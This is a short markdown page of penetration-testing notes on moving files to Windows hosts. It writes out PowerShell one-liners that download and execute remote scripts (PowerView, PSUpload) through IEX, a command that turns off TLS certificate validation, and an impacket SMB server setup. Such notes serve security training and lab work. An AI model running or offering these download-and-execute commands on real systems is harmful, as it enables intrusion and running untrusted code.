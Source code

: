 {% code overflow="wrap" %}
```
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```powershell-session
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption><p>Another error in PowerShell downloads is related to the SSL/TLS secure channel if the certificate is not trusted. We can bypass that error with the following command</p></figcaption></figure>

{% code overflow="wrap" %}
```
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
{% endcode %}

## SMB Downloads



### **Create the SMB Server**

{% code overflow="wrap" %}
```
sudo impacket-smbserver share -smb2support /tmp/smbshare
```
{% endcode %}
